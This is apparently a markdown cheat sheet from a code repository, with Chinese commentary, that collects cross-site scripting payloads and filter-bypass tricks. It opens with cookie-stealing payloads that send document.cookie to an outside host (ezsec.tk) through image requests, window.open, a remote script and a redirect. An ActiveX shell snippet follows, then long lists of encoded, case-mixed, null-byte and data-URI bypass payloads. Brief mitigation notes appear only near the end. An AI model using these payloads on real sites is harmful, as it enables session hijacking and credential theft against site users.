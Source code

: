 #XSS
---

##

`"/><script>alert(1)</script>`  
`"/><script>var+i=new+Image;+i.src="http://ezsec.tk:8000/"%2bdocument.cookie;</script>`  
`"/><script>window.open('http://ezsec.tk:8000/'+document.cookie)</script>`  
`"/><script src="http://ezsec.tk:8000/ck.js"></script><"`  

cookie.js  

```
window.location.href='http://ezsec.tk/?cookie='+document.cookie;
```

```
<input type='text' name='message' value='<script>alert(1)</script>'>
message = <script>alert(1)</script>

<script>
  var url = document.location;
  url = unescape(url);
  var message = url.substring(url.indexOf('message=') + 8, url.length);
  document.write(message);
</script>
```

```
<script>
  var o = ActiveXObject(WScript.shell);
  o.Run('calc.exe');
</script>
```

#####基本绕过
`"><script>alert(document.cookie)</script >`  
`"><ScRiPt>alert(document.cookie)</ScRiPt>`  
`%3e%3cscript%3ealert(document.cookie)%3c/script%3e`  
`"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>`  
`%00"><script>alert(document.cookie)</script >`  

#####脚本标签
除直接使用`<script>`标签外，还可以通过各种方法、使用复杂的语句来隐藏标签，从而避开某些过滤：  
  `<object data="data:text/html,<script>alert(1)</script>">`  
  `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`  
  `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">click me</a>`  

#####事件处理器
`<xml onreadystatechange=alert(1)>`  
`<object onerror=alert(1)>`  
`<isindex type=image src=valid.gif onreadystatechange=alert(1)>`  
`<script onreadystatechange=alert(1)>`  
`<bgsound onpropertychange=alert(1)>`  
`<body onbeforeactivate=alert(1)>`  
`<body onactivate=alert(1)>`  
`<body onfocusin=alert(1)>`  
`<input autofocus onfocus=alert(1)>`  
`<input onblur=alert(1) aitofocus><input autofocus>`  
`<body onscroll=alert(1)><br><br>...<br><input autofocus>`  
`</a onmousemove=alert(1)>`  
`<audio src=1 onerror=alert(1)>`  

#####脚本伪协议
`<ogject data=javascript:alert(1)>`  

#####避开过滤
`<img onerror=alert(1) src=a>`  
`<iMg onerror=alert(1) src=a>`  
`<[%00]img onerror=alert(1) src=a>`  
`<i[%00]mg onerror=alert(1) src=a>`  
`<img/onerror="alert(1)"src=a>`  
`<iframe src=j&#x61;vasc&#x72;ipt&#x3a;alert&#x28;1&#x29;>`  
添加多余"0"  
`<img onerror=a&#x6c;ert(1) src=a>`  
`<img onerror=a&#x06c;ert(1) src=a>`  
`<img onerror=a&#x006c;ert(1) src=a>`  
`<img onerror=a&#x0006c;ert(1) src=a>`  

#####字符集
UTF-7  
`+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-`  

US-ASCII  

```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE                            ; script¾
```

#常见xss绕过小总结
---

第一类：`1<tag on*=*/>`  
在html标签事件中触发,典型的是`on`事件,但是这种触发模式的缺陷在于不能直接触发所以更多的需要配合使用。  

eg：  
	1. 使html元素占据整个显示页面`<a onclick="alert('1')" style="postion:fixed;width:100%;heith:100%"> </a>`  
   2. 增加属性触发事件`<input onfocus="alert('1')" autofocus/>`  
   3. 自动触发事件`<body onload="alert('1')"></body>`  
在真实环境中，`'`、`"`、`(`、`)`都是属于黑名单中的成员，如果遇到以上四个字符被过滤的情况，那么我们就需要使用其他字符去代替，或者编码的方式去绕过。  

eg:  
    1. 不使用```"  <input onfocus=alert('1') autofocus/>```  
    2. 不使用```'  <input onfocus="alert(/1/)" autofocus/>```  
    3. 不使用```( )  <input onfocus="alert`'1'`" autofocus/>```  
    4. 不使用```' " ( ) <input onfocus=alert`1` autofocus/>```  
    5. 使用html实体编码绕过```<input onfocus="alert('1')" autofocus/>```  
    6. 使用html实体编码绕过变形```<input onfocus="&#97&#108&#101&#114&#116&#40&#39&#49&#39&#41" autofocus/>```  

这里如何修补该漏洞呢？常见修补方式有如下  

eg：  
    1. 使用环境允许插入html标签排版的情况下，很常见的就是将html事件熟悉转义为html实体编码字符，当然也可以直接拦截返回404。常见匹配策略`/on[^=]*=/ig`  
    2. 使用环境不允许插入html标签的情况下，不难看出所有的tag前面都紧贴着一个`<`，所以只需要将`<`使用html实体编码转换即可。常见匹配策略`/</g`  

第二类：`<tag src=*/>`  
该类型的触发点其实相对较少的，曾经最经典的一个莫属于IE6中的`<img src="alert('1')"/>`但是这个问题已经成为历史，在其它`tag`中使用`src`属性触发xss的列子也还是有的。  

eg：  
    1. 在iframe标签中加载一个脚本页面`<iframe src="./alert.html"></iframe>`  
    2. 在script标签中加载一个脚本`<script src="./alert.js"></script>`  
在src属性中可以使用可以直接请求一个外部连接，还可以用`Data` `URI` `scheme`直接嵌入文本  

eg：  
    1. 在iframe标签中使用`Data` `URI` `scheme`直接嵌入文本`<iframe src="data:text/html,<script>alert('1')</script>"></iframe>`  
    2. 在script标签中使用`Data` `URI` `scheme`直接嵌入文本`<script src="data:text/html,alert('1')"></script>`  
使用`Data` `URI` `scheme`直接嵌入文本，比较繁琐，但是这类的好处在于可以使用BASE64编码格式  

eg：  
    1. 在iframe标签中使用`Data` `URI` `scheme`直接嵌入BASE64编码后的文本`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnMScpPC9zY3JpcHQ+"></iframe>`  
    2. 在script标签中使用`Data` `URI` `scheme`直接嵌入BASE64编码后的文本`<script src="data:text/html;base64,YWxlcnQoJzEnKQ=="></script>`  
在该类型的变形中还可以结合第一类的变形使用  

eg：  
    1. 使用html实体编码`URI` `<script src="./alert.js"></script>`  
    2. 使用html实体编码`Data` `URI` `scheme` `<script src="data:text/html,alert('1')"></script>`  
    3. 使用html实体编码BASE64编码之后的`Data` `URI` `scheme` `<script src="data:text/html;base64,YWxlcnQoJzEnKQ=="></script>`  
该类问题的修补策略和第一类类似。常见方式有如下。  

eg：  
    1. 在允许使用外部元素的时候，鄙人不才没能想出处理方案。  
    2. 在不允许使用外部元素的时候，在`src`所指向的`URI`上加入当前网站的域名，以此限制内容为当前网站中的安全内容。  
    3. 在不允许使用元素引入的时候，但是允许插入html标签排版的情况下，指定`tag`白名单或者tag黑名单。  
    4. 不允许使用html标签的时候，将`<`转换为html实体编码。  
